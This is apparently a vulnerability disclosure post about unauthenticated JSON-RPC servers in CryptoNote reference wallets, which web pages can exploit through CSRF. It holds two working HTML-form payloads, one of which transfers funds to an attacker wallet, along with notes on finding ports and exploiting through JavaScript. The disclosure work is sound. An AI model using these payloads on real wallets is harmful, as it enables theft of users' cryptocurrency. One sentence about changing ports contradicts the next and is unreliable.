```yaml
---
layout: post
title: Unauthenticated JSON-RPC API allows takeover of CryptoNote RPC wallets
---
```


<img src="assets/CryptoNote_OnFire_200s.gif" alt="Cryptonote-img" class="center-image" >

The reference implementation of CryptoNote wallets start a JSON-RPC server
listening on a localhost port that allows an attacker to execute wallet
functions due to a lack of authentication.

An attacker may exploit this vulnerability to steal cryptocurrency from
vulnerable wallets by directing users to visit a webpage hosting the exploit.

# Affected Software

All cryptocurrencies that use the reference CryptoNote walletd and simplewallet
implementations are vulnerable. Notable coins include Bytecoin and Aeon.

# Description

The reference CryptoNote repository comes with two different wallets,
`simplewallet` and `walletd`. Both wallets have JSON-RPC servers that are
vulnerable to similar attacks. Even though the JSON-RPC servers are listening
on localhost, they can be exploited via CSRF.

## walletd

`walletd` has the JSON-RPC server enabled by default. The wallet binds to port
8070 by default.

The below proof-of-concept demonstrates the vulnerability by creating a new
address in the walletd container.

```html
<html>
<form action=http://127.0.0.1:8070/json_rpc method=post enctype="text/plain" >
	<input name='{"params":{},"jsonrpc":"2.0","method":"createAddress", "ignore_me":"' value='test"}'type='hidden'>
<input type=submit>
</form>
</html>
```

## simplewallet

`simplewallet` does not have the JSON-RPC server enabled by default. Enabling
the server requires the `--rpc-bind-port` flag when invoking `simplewallet`.

The below proof-of-concept demonstrates the vulnerability by making a transfer
from the running wallet to an attacker controlled wallet. Change the
INSERT_AMOUNT and INSERT_WALLET_ADDRESS parameters when testing the POC. We
assume that `simplewallet` was invoked with `--rpc-bind-port 8111`.

```html
<html>
<form action=http://127.0.0.1:8111 method=post enctype="text/plain" >
        <input name='{"jsonrpc":"2.0","method":"transfer","params":{"destinations":[{"amount":INSERT_AMOUNT,"address":"INSERT_WALLET_ADDRESS"}],"fee":100,"mixin":0,"unlock_time":0}, "ignore_me":"' value='test"}'type='hidden'>
<input type=submit>
</form>
</html>
```

## Notes on exploitation

While the proof-of-concept code assumes that the server is listening on a
specific port, changing the running port does prevent exploitation. It is
trivial to enumerate open ports with WebSocket.

The proof-of-concept uses a HTML form to demonstrate the attack. However,
exploiting this over Javascript is not an issue due to a lack of CSRF
protection.

# Vendor Response

Attempts have been made to reach out to the CryptoNote and Bytecoin developers
without any success.

Turtlecoin has patched the issue by adding authentication in
[commit 4949e91][turtlecoin-commit].

Aeon has acknowledged the report and is not currently implementing a fix as
they are in the process of rebasing their code. There is minimal risk to Aeon
as `simplewallet` is not used in RPC mode for any official clients.

# Recommended Fix

The JSON-RPC servers should be patched to require authentication on every
request. It is recommended that all forks of CryptoNote and ByteCoin apply
a patch similar to the Turtlecoin fix.

# Credits

This issue was discovered by Ayrx.

Shoutout to @tildalwave for the GIF!

[turtlecoin-commit]: https://github.com/turtlecoin/turtlecoin/commit/4949e91e09bc1d16132090aef4dc09cc6ca09fa1
